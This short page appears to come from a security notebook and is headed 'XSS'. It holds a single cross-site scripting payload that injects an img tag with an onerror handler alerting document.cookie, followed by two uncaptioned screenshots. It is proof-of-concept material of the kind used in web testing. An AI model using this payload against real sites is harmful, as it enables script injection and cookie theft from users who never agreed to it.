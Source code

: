 # XSS

```bash
#"><img src=/ onerror=alert(document.cookie)>
```

<figure><img src="../../../../../.gitbook/assets/Untitled (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/Untitled 1 (3).png" alt=""><figcaption></figcaption></figure>


